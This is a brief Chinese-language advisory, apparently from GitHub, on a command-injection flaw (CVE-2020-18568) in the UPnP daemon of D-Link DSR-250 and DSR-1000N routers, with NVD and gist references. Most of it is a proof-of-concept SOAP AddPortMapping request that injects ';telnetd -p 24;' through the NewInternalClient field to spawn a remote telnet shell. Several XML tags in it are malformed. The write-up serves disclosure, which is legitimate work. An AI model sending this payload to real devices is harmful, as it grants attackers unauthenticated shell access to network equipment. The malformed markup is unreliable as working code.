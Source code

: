 # D-Link DSR-250 DSR-1000N 命令注入（CVE-2020-18568）

影响版本：DSR-250（3.14）DSR-1000N（2.11B201）

固件包中有一个upnpd程序，该程序在0.0.0.0上侦听端口1900（udp）和49152（tcp）。通过逆向分析，当程序设置iptable时，未检查参数，这可能导致命令注入。

**PoC：**


```xml
POST /upnp/control/WANIPConn1 HTTP/1.1
HOST: $control_host:$control_port
Content-Length: $content_length
Content-Type: text/xml; charset="utf-8"
SOAPAction: urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping
<?xml version="1.0" ?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
 <s:Body>
  <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
   <NewExternalPort>7331</NewExternalPort>
   <NewProtocol>tcp<NewProtocol/>
   <NewInternalPort>1337<NewInternalPort/>
   <NewLeaseDuration><NewLeaseDuration/>
   <NewEnabled>1<NewEnabled/>
   <NewPortMappingDescription>hackedByC0ss4ck<NewPortMappingDescription/>
   <NewRemoteHost>0.0.0.0<NewRemoteHost/>
   <NewInternalClient>;telnetd -p 24;<NewInternalClient/>
  </u:AddPortMapping>
 </s:Body>
</s:Envelope>
```

ref：

* https://nvd.nist.gov/vuln/detail/CVE-2020-18568
* https://gist.github.com/WinMin/5b2bc43b517503472bb28a298981ed5a